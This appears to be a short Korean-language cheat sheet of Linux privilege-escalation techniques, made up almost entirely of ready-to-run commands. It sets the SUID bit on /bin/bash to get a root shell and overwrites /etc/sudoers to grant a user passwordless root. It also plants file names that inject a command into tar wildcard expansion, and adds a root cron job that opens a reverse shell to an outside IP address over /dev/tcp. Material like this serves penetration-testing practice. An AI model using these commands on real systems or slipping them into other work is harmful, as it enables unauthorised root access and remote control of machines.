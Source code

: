 ### Bash u+s
```bash
# SUID 권한 부여
chmod u+s /bin/bash
# 모두가 p 권한으로 root 쉘 접근 가능
/bin/bash -p
```

### sudoers 추가
```bash
echo 'cassie ALL=(root) NOPASSWD: ALL' > /etc/sudoers
```

### tar wildcard
```bash
# tar -zcf /home/backup.tgz * 와 같이 wildcard를 쓸 경우

echo "" > '--checkpoint=1'  
echo "" > '--checkpoint-action=exec=sh privesc.sh'
```

### cron 업로드
```bash
* * * * * bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
```
위 파일을 아래 경로에 업로드
```bash
/var/spool/cron/crontabs/root
```



